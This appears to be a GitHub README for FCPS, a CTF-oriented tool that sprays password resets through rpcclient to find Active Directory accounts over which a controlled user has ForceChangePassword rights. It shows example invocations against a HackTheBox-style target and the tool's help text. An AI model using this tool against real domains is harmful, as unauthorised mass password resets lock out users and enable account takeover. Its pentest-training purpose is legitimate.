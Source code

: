 # FCPS
ForceChangePasswordSpray

This tool allows the user to spray credentials to test for ForceChangePassword rights over other users in the Username list.
First, gather a username list by using enum4linux, impacket-GetADUsers, etc.

For some CTF machines, Bloodhound doesn't show ForceChangePassword rights over other users. In those cases, you try each user in a special group manually.

In this blog by Juggarnaut-sec, the methodology is explained further "our current user “vcreed” is a member of that group. Very often, when we find an “IT support” type of custom group (or user) with Help Desk, Service Desk, Support, IT, etc. in their name, there’s a pretty good chance that the group / user will have delegate privileges that allow them to force a password reset" https://juggernaut-sec.com/ad-recon-msrpc-over-smb/#Manually_Enumerating_Users_Groups_and_More_%E2%80%93_rpcclient

```
python3 ~/Tools/FCPS.py -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'
~/Tools/FCPS.sh -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'

Usage: FCPS.py [-h] -d DOMAIN -u CONTROLLED_USER -p CONTROLLED_USER_PASSWORD -i DOMAIN_CONTROLLER_IP -f
               USERNAME_LIST -n NEW_PASSWORD

Automate password changes via rpcclient

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain name (e.g., example.com)
  -u CONTROLLED_USER, --controlled_user CONTROLLED_USER
                        User with permission to change passwords
  -p CONTROLLED_USER_PASSWORD, --controlled_user_password CONTROLLED_USER_PASSWORD
                        Password for the controlled user
  -i DOMAIN_CONTROLLER_IP, --domain_controller_ip DOMAIN_CONTROLLER_IP
                        Domain Controller IP address
  -f USERNAME_LIST, --username_list USERNAME_LIST
                        Path to file containing usernames
  -n NEW_PASSWORD, --new_password NEW_PASSWORD
                        New password to set for users
```


![image](https://github.com/user-attachments/assets/3ba16968-4338-439b-a6d0-f4b44025b54b)


